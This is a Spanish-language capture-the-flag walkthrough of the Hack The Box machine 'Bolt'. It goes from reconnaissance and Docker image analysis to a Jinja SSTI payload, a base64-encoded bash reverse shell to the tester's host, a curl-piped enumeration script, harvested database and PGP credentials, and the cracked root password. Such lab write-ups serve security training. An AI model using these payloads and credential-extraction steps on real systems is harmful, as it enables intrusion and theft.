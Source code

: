 # 10.10.11.114 - Bolt

![Bolt](https://user-images.githubusercontent.com/96772264/204356998-dea6b45d-78e4-40aa-a3ca-22b6d9b41c75.png)

-------------------
# Part 1: Reconocimiento básico

Puertos abiertos 22(ssh), 80(http), 443(https). Nmap dice que:
- Puerto 80: nginx
- Puerto 443: Passbolt (gestor de contraseñas open soyrde) passbolt.bolt.htb

Añado en el /etc/hosts -> bolt.htb y passbolt.bolt.htb.  
Si hago una peticion a bolt.htb -> "auth/login?redirect=/"   
En el navegador sale una página en blanco pero al inspeccionar sale como un banner del programa "Passbolt" y su subdominio.  

Si se hace por curl no se aplica la redirección. ```curl -s http://bolt.htb```
De ahí se puede sacar que usan "Admin LTE" y tres nombres: Joseph Garth, Bonnie Green, Jose Leos  
Si meto uno como test@bolt.htb dice que no está aprovado. Intente con los que obtuve como joseph.garth@bolt.htb  pero nada.  
![bolt1](https://user-images.githubusercontent.com/96772264/204357198-6cd9c7ef-48d8-41a1-933c-e595ff18edac.PNG)

Si pongo la ip 10.10.11.114 si que me resuelve:  

![bolt2](https://user-images.githubusercontent.com/96772264/204357209-15ab8c85-5894-48ff-bf60-890b96b34e52.PNG)

-------------------
# Part 2: Docker Analisis 

Una de las páginas es download, donde nos ofrecen una imagen docker. Es un archivo tar que al descomprimirlo se ve asi
```console
└─$ ls
 187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950
 1be1cefeda09a601dd9baa310a3704d6309dc28f6d213867911cd2257b95677c
 2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa
# Como 7 archivos de estos más...
 859e74798e6c82d5191cd0deaae8c124504052faa654d6691c21577a8fa50811.json
 manifest.json
 repositories
```
Si haces ```tree -fas``` ves que cada carpeta larga de estas tiene una archivo json otra layer.tar y otra VERSION.
Nos interesa el tar porque digamos que es un trozo de una imagen docker (o sea como una máquina virtual pero mas simple)
```console
└─$ tree -fas | grep "layer.tar" | awk '{print $NF}'
./187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950/layer.tar
./1be1cefeda09a601dd9baa310a3704d6309dc28f6d213867911cd2257b95677c/layer.tar
./2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa/layer.tar
# Y 8 mas
└─$ for file in $(tree -fas | grep "layer.tar" | awk '{print $NF}'); do echo "$file: "; 7z l $file; done > index.txt;
└─$ cat index.txt | grep -vE "terminfo|lib|cache|static"

# ./187e74706bdc9cb3f44dca230ac7c9962288a5b8bd579c47a36abf64f35c2950  # archivos de configuracion /etc
# ./2265c5097f0b290a53b7556fd5d721ffad8a4921bfc2a6e378c04859185d27fa  # archivos de la web 
# ./a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2  # archivo sqlite
# ./745959c3a65c3899f9e1a5319ee5500f199e0cadf8d487b92e2f297441f8c5cf  # arhivos de la app de python
# ./3049862d975f250783ddb4ea0e9cb359578da4a06bf84f05a7ea69ad8d508dab  # mas archivos de la web
```
En el docker tenemos:
- usaurios ->  root, operator, postgress  
- corre cada 15 min estos run-parts /etc/periodic/15min  
- gunicorn en el puerto 5005   
- config.py:   
	SECRET_KEY: 'S#perS3crEt_007'  
	mail puerto 25 support@bolt.htb  
	base_de_datos: 127.0.0.1:5432 appseed:pass   postgresql/appseed-flask  

```console
└─$ sqlite3 db.sqlite3
sqlite> .tables  # User
sqlite> select * from User;
1|admin|admin@bolt.htb|$1$sm1RceCh$rSd3PygnS/6jlFDfF2J5q.||

└─$ john hash -w=/usr/share/wordlists/rockyou.txt
deadbolt	(?)
```
Entramos con admin:deadbolt

En la seccion de correos un tal Alexander Pierce nos ha bombardeado con emails diciendo que hay un problema con AdminLTE 3.0.
![bolt3](https://user-images.githubusercontent.com/96772264/204357340-5adaf59f-f0cb-47d7-bac4-7327855e6193.PNG)

En la parte de /profile hay mensajes de prueba de Jonathan Burke Jr., Sarah Ross y Adam Jones

-------------------
# Part 3: STTI

Como no sabemos que mas hacer podemos buscar subdominios:
```console
└─$ wfuzz -c --hl 504 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.bolt.htb" -u http://bolt.htb/ -t 100
000000038:   302        3 L      24 W       219 Ch      "demo"                                               
000000002:   200        98 L     322 W      4943 Ch     "mail" 
```

demo.bolt.htb y main.bolt.htb nos piden creds, pero no funcionan la de antes 
En /demo nos podemos registrar, pero nos piden un "codigo de invitacion" Vamos a ver si lo encontramos en el repo
```console
└─$ grep -ri "invite code" --text
└─$ grep -ri "invite code" --text
41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/layer.tar
9a3bb655a4d35896e951f1528578693762650f76d7fb3aa791ac8eec9f14bc77/layer.tar
# Se vuelve a hacer un 7z x de los dos
└─$ grep -ri "invite code"
app/base/templates/accounts/register.html
app/base/forms.py  # En forms.py encontramos que el campo se llama invite_code
└─$ grep -ri "invite_code"
app/base/routes.py # -> XNSS-HSJW-3NGU-8XTJ
```
![bolt4](https://user-images.githubusercontent.com/96772264/204357522-839b5bfc-3466-4a9d-86a2-e4657457ae06.PNG)

Nos creamos un usaurio en esta seccion: cucuxii:cucuxii@bolt.htb con esta llave. Entramos en una web casi identica a 10.10.11.114/admin solo que existe ademas 
la seccion de Settings -> "Se requiere una verificacion por email para actualizar inofrmación personal"

En efecto nos llega un email al subdominio de mail (done nos logueamos con la misma cuenta) y le damos a confirmar. En el perfil no cambia nada pero nos 
llega otro mail diciendo que se ha efectuado el cambio "test"
![bolt5](https://user-images.githubusercontent.com/96772264/204357561-f0c0e927-0c12-4ee9-b48e-232f6abd0732.PNG)
![bolt6](https://user-images.githubusercontent.com/96772264/204357579-2f85c332-9252-4b0b-a9cd-13d2cecec1d2.PNG)
![bolt7](https://user-images.githubusercontent.com/96772264/204357594-73fa7c76-f2bd-42d8-aa24-35c9681af8ee.PNG)

Como se refleja el output podemos robar un payload STTI {{7\*7}} Nos llega otro email con la palabra 49, o sea todo funciona.

```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.16/666 0>&1'" | base64  -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNi82NjYgMD4mMScK
#{{cycler.__init__.__globals__.os.popen('echo YmFz... | base64 -d | bash').read()}}
```
Al darle al email de confirmacion, si nos hemos puesto en escucha con nc ```sudo nc -nlvp 666```


-------------------
# Part 4: En el sistema

Si nos ponemos a analizar el sistema con nuestro [script](https://github.com/CUCUxii/Pentesting-tools/blob/main/lin_info_xii.sh)
```console
www-data@bolt:/tmp$ curl -s http://10.10.14.16/lin_info_xii.sh | bash
```
- Usuarios: root, eddie y clark, nosotros somos www-data     
- Existe la ruta /var/mail, reflejo del subdominio de mail, interesante si pudieramos leer el de eddie  -> permiso denegado
- Logs donde pueden haber creds: /var/log/nginx/passbolt-access.log /var/log/passbolt/error.log   
- EN /etc/passbolt hay una capreta gpg -> (hay llaves GPG dentro) y tambien un passbolt.conf con creds para la base de datos "passbolt:rT2;jW7<eY8!dX8}pQ8%"
- El puerto 3306 o sea sql está abierto   

```console
www-data@bolt:/etc/passbolt$ mysql -upassbolt -p
Enter password: rT2;jW7<eY8!dX8}pQ8%
mysql> show databases;  # passboltdb
mysql> use passboltdb;
mysql> show tables; 
# 'users' no tiene nada, pero 'secret' tiene un mensaje GPG (se ve de un formato similar a las llaves)

-----BEGIN PGP MESSAGE-----
Version: OpenPGP.js v4.10.9
Comment: https://openpgpjs.org

wcBMA/ZcqHmj13/kAQgAkS/2GvYLxglAIQpzFCydAPOj6QwdVV5BR17W5psc
g/ajGlQbkE6wgmpoV7HuyABUjgrNYwZGN7ak2Pkb+/3LZgtpV/PJCAD030kY
pCLSEEzPBiIGQ9VauHpATf8YZnwK1JwO/BQnpJUJV71YOon6PNV71T2zFr3H
oAFbR/wPyF6Lpkwy56u3A2A6lbDb3sRl/SVIj6xtXn+fICeHjvYEm2IrE4Px
...
```
Esta contraseña sirve para loguearse como eddie. Intento romper la llave privada con gpg2jhon pero no hay suerte

-------------------
# Part 5: Llave GPG escondida

Si corro el script otra vez, eddie posee muchos archivos .config/google-chrome/
En la busqueda de backups tambien nos muestran esta carpeta, en concreto carpeta Default con muchos archivos que acaban en "000003.log"

En la carpeta de /google-chrome hay demasiadas cosas asi que hacemos un filtrado por cosas como "gpg" o "passbolt" ```grep -riE "passbolt|gpg"```   
Damos con esta ruta todo el rato ```Extensions/didegimhafipceonhjepacocaffmoppf/3.0.5_0/index.min.js``` pero no está está la llave GPG aunque la mencionan.
Buscamos a ver si esta ruta existe en otro lado: ```grep -ri "didegimhafipceonhjepacocaffmoppf"``` y damos con: "/Private Local Extension/Settings/"  

Dentro hay un archivo extremadamente largo llamado cat 000003.log con llaves gpg en un one liner (o sea hechas un churro)  
```
-----BEGIN PGP PRIVATE KEY BLOCK-----\\r\\nVersion: OpenPGP.js v4.10.9\\r\\nComment: https://openpgpjs.org\\r\\n\\r\\nxcMGBGA4G2EBCADbpIGoMv+O5sxsbYX3ZhkuikEiIbDL8JRvLX/r1KlhWlTi\\r\\nfjfUozTU9a0OLuiHUNeEjYIVdcaAR89lVBnYuoneAghZ7eaZuiLz+5gaYczk\\r\\ncpRETcVDVVMZrLlW4zhA9OXfQY/d4/OXaAjsU9w+8ne0A5I0aygN2OPnEKhU\\r\\nRNa6PCvADh22J5vD+/RjPrmpnHcUuj+/qtJrS6PyEhY6jgxmeijYZqGkGeWU\\r\\n+XkmuFNmq6km9pCw+MJGdq0b9yEKOig6/UhGWZCQ7RKU1jzCbFOvcD98YT9a\\r\\nIf70XnI0xNMS4iRVzd2D4zliQx9d6BqEqZDfZhYpWo3NbDq
```
Abrimos una al azar con VIM y la formateamos bien: -> ```:%s/\\\\r/\r/g y :%s/\\\\n//g  ```  
```console
└─$ gpg2john llave1.key > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
merrychristmas   (Eddie Johnson)
└─$ gpg --import llave1.key  # metes la contraseña merrychristmas
└─$ gpg -d message
gpg: cifrado con clave de 2048 bits RSA, ID F65CA879A3D77FE4, creada el 2021-02-25
      "Eddie Johnson <eddie@bolt.htb>"
{"password":"Z(2rmxsNW(Z?3=p/9s","description":""}gpg: Firmado el sáb 06 mar 2021 16:33:54 CET
```
Esa es la contraseña de root.

